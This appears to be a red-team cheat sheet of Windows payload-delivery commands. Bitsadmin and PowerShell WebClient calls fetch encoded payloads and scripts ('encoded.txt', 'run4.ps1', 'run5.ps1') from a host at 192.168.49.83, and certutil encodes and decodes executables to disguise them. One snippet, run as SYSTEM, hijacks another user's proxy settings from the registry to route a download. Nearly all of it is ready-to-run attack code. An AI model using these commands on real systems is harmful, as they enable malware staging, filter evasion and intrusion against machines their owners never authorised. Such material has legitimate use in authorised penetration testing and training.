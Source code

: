 #### Bitsadmin Download

Use bitsadmin to download. *Note, requires full destination path; Python server cannot support required protocols*

```
# encode the payload with certutil 
bitsadmin /Transfer myJob http://192.168.49.83/encoded.txt c:\users\user\desktop\enc.txt
```

#### Certutil Encode/Decode

Use certutil to base64 encode and decode.

```
# encode
certutil -encode input.exe output.txt

# decode
certutil -decode input.txt output.exe
```

#### PowerShell Convert Assembly to Hex

```
$assemblyFile = "assem.dll"
$stringBuilder = New-Object -Type System.Text.StringBuilder
$fileStream = [IO.File]::OpenRead($assemblyFile)
while (($byte = $fileStream.ReadByte()) -gt -1) {
    $stringBuilder.Append($byte.ToString("X2")) | Out-Null
}
$stringBuilder.ToString() -join "" | Out-File c:\Tools\cmdExec.txt
```

#### Powershell Download via Web Proxy

Leveraging the user's proxy

```
$wc = New-Object system.net.webclient
$wc.Headers.Add('User-Agent', "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.82 Safari/537.36")
$wc.DownloadString("http://192.168.49.83/run4.ps1")
```

Leveraging another user's proxy as SYSTEM

```
New-PSDrive -Name HKU -PSProvider Registry -Root HKEY_USERS | Out-Null
$keys = Get-ChildItem 'HKU:\'
ForEach ($key in $keys) {if ($key.Name -like "*S-1-5-21-*") {$start = $key.Name.substring(10);break}}
$proxyAddr=(Get-ItemProperty -Path "HKU:$start\Software\Microsoft\Windows\CurrentVersion\Internet Settings\").ProxyServer
[system.net.webrequest]::DefaultWebProxy = new-object System.Net.WebProxy("http://$proxyAddr")
$wc = new-object system.net.WebClient
$wc.DownloadString("http://192.168.49.83/run5.ps1")
```

